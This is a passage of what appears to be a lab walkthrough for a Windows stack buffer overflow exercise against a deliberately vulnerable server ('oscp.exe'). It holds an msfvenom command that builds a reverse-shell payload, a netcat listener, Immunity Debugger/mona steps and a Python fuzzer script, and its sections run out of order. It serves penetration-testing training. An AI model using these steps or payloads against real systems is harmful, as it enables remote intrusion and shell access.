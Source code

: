 ```shell
#add jump point address to 'retn' in little-endian format

#generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.31.212 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c

vim exploit.py
#add payload, enclosed in brackets
#also edit to var padding = "\x90" * 16

#setup listener
nc -nvlp 4444

#run exploit
python3 exploit.py
#we get reverse shell
```

* Given, we have a 32-bit Windows 7 VM with Windows Firewall & Defender disabled.

* We will be using Immunity Debugger to help with buffer overflows.

* Run the Immunity Debugger application as Administrator, and use 'Open File' to open the vulnerable app (oscp.exe).

* Run the binary; oscp.exe is now running and listening on port 1337.

* Connecting to the Windows machine on port 1337 with Kali, we get access to the OSCP Vulnerable Server; we have to go for OVERFLOW1 here.

* Run the following command in the command input box in Immunity Debugger (bottom section):

  ```!mona config -set workingfolder c:\mona\%p```

* Now, we need to create ```fuzzer.py``` in Kali:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.157.219"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```
